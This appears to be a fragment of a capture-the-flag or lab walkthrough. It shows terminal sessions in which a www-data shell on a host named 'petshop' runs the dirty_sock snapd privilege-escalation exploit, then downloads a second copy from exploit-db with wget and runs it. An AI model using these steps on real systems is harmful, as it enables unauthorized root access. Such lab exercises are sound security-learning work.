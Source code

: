 ```bash
www-data@petshop:/dev/shm/dirty_sock-master$ ./dirty_sockv2.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/mfqjgjbpuv;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] System may not be vulnerable, here is the API reply:


HTTP/1.1 401 Unauthorized
Content-Type: application/json
Date: Thu, 31 Jul 2025 xx:xx1:xx GMT
Content-Length: 119

{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}
```

```bash
www-data@petshop:/dev/shm$ wget https://www.exploit-db.com/download/46362
...
46362                   [ <=>                ]  13.50K  --.-KB/s    in 0.06s   
...
```

```bash
www-data@petshop:/dev/shm$ ls
46362  dirty_sock-master  master.zip
```

```bash
www-data@petshop:/dev/shm$ mv 46362 46362.py
```

```bash
www-data@petshop:/dev/shm$ chmod +x 46362.py
```

```bash
www-data@petshop:/dev/shm$ python3 46362.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/skddvyetgr;uid=0;
[+] Binding to socket file...
```